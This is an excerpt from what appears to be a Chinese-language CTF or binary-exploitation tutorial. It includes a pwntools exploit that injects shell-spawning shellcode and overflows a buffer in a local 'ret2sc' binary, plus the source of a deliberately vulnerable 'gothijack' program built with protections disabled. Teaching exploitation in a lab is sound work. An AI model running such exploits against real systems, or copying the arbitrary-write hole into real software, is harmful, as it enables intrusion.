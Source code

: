### Exp

```python
from pwn import *

r = process("./ret2sc")
context.arch = "amd64"

r.recvuntil("\n")
sc = asm(shellcraft.sh())
r.send(sc)

r.recvuntil("\n")
p = b'a' * 0x18 + p64(0x404060)
r.send(p)

r.interactive()
```

## gothijack

### 源码

```cpp
#include "stdio.h"
#include "stdlib.h"
#include "unistd.h"

char name[0x40];

int main(int argc, char const *argv[])
{
    int unsigned long long addr;
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    printf("What's your name?\n");
    read(0,name,0x40);
    printf("Where do you want to write?\n");
    scanf("%llu",&addr);
    printf("Data: ");
    read(0,(char *)addr, 8);
    puts("Done!");
    printf("Thank you %s!\n",name);
    return 0;
}
```

### Makefile

`gcc -z execstack -no-pie -o gothijack gothijack.c`

### 考点


[^1]: 是执行到这句`printf("Thank you %s!\n", name);`才跳转到shellcode
[^2]: 这些片段也称为 *gadget*